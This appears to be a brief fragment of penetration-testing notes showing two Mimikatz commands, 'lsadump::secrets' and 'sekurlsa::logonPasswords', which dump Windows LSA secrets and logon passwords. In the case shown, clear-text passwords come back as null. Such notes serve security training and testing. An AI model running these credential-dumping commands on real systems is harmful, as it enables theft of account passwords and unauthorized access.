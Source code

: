 ```bash
lsadump::secrets
```

![lsadump::secrets](assets/image-20230318104555711.png)

- Display logon passwords, when stored in clear-text
  - in this case clear-text password are disabled - `(null)`

```
sekurlsa::logonPasswords
```
